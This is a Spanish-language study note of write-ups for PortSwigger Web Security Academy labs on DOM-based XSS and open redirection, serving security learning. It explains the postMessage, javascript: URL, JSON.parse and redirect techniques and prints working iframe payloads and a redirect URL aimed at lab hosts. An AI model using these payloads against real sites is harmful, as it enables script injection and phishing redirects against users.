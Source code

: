 # DOM XSS

## Table of contents

- [DOM XSS](#dom-xss)
  - [DOM XSS using web messages](#dom-xss-using-web-messages)
  - [DOM XSS using web messages and a JavaScript URL](#dom-xss-using-web-messages-and-a-javascript-url)
  - [DOM XSS using web messages and JSON.parse](#dom-xss-using-web-messages-and-jsonparse)
  - [DOM-based open redirection](#dom-based-open-redirection)
  - [DOM-based cookie manipulation](#dom-based-cookie-manipulation)

## DOM XSS using web messages

una pagina utiliza el evento **message** para agregar publicidad y lo incrusta en el codigo HTML usando un sink **innerHTML**:

![[Pasted image 20230227155449.png]]

primero hay que entender como funciona este evento, es similar a una comunicacion de sockets:

se tiene a la "escucha" un evento **onmessage**:

```javascript
window.addEventListener('message',function(e){
	//contenido recibido
	e.data
})
```

se envia informacion:

```javascript
//postMessage(message, targetOrigin)
window.postmessage('informacion para enviar','www.pagina.com')
```

ahora como la pagina recibe mensaje y usa **innerHTML** para incrustar codigo, podemos enviar informacion a traves de un metodo sin interaccion del usuario **(onload)** y cargar la pagina dentro de un **(\<iframe\>)**:

En el contenido que enviemos podemos poner una carga util XSS:

```html
<iframe src="https://0a3b00e303e88a45c11e0d54004400b0.web-security-academy.net/" onload="this.contentWindow.postMessage('<img src/onerror=print()>','*')">
```

- en el target colocamos un `*` para especificar cualquiera, podemos ser mas especificos y colocar la URL tambien.
- La propiedad `contentWindow` devuelve el objeto Window de un **HTMLIFrameElement**. Puede usar este objeto Window para acceder al documento del iframe y su DOM interno.

si entregamos esta carga util a nuestra victima se le cargara nuestra carga util XSS.

## DOM XSS using web messages and a JavaScript URL

la pagina recibe la informacion de un evento **onmessage** y realiza un **location.href**:

![[Pasted image 20230227172256.png]]

en este caso se valida la **data** recibida si contiene `http:` o `https:`. Pasa la validacion y se lo establece como valor del **href**.

podemos colocar el siguiente payload:

```javascript
javascript:print()//http:
```

ponemos como comentario `http:` para que no se interprete pero pase la validacion.

para entregar a nuestra victima quedaria asi:

```html
<iframe src="https://0a3b00e303e88a45c11e0d54004400b0.web-security-academy.net/" onload="this.contentWindow.postMessage('javascript:print()//http:','*')">
```

## DOM XSS using web messages and JSON.parse

una pagina recibe por el evento **onmessage** una estructura json, el siguiente codigo muestra la logica:

![[Pasted image 20230227235438.png]]

se puede resumir en que la estructura tiene un campo **type** que es evaluado en un switch case si tiene el valor **load-channel**, se toma el valor **url** del json y se lo coloca como el atributo **src** de un objeto **iframe** creado anteriormente.

por lo que podemos crear la siguiente estructura json para controlar el atributo **src** y poder inyectar una carga XSS:

```json
{
	"type":"load-channel",
	"url":"javascript:print()"
}
```

para entregarlo a una victima, lo podemos cargar en un iframe:

(escapando las comillas dobles del JSON)

```html
<iframe src="https://0ad700940433f3a0c0a522f900fb00fb.web-security-academy.net/" onload='this.contentWindow.postMessage("{\"type\":\"load-channel\",\"url\":\"javascript:print()\"}","*")'>
```

>[!tip]
>A veces es bueno intentar los parametros de la etiqueta HTML con comillas dobles (`""`) si no funciona hay que cambiar a comillas simples todo (`''`) 
>
>```html
>onload='this.contentWindow.postMessage("{\"type\"}")'
>onload="this.contentWindow.postMessage('{\"type\"}')"
>```

## DOM-based open redirection

una pagina que permite publicar comentarios en un post tiene un boton de vuelta atras:

![[Pasted image 20230228001021.png]]

el boton tiene un evento **onclick** con la siguiente logica:

```html
onclick='returnUrl = /url=(https?:\/\/.+)/.exec(location); if(returnUrl)location.href = returnUrl[1];else location.href = "/"'
```

![[Pasted image 20230228000848.png]]

el evento buscar un parametro GET llmado **url** y lo coloca como **location.href**:

![[Pasted image 20230228000914.png]]

por lo que podemos mandar una peticion a nuestro exploit server:

```bash
https://0a25003e030e8453c0d93360007b00a7.web-security-academy.net/post?postId=1&url=https://exploit-0a06001703ec84afc0ba323c018300c1.exploit-server.net/exploit
```

## DOM-based cookie manipulation

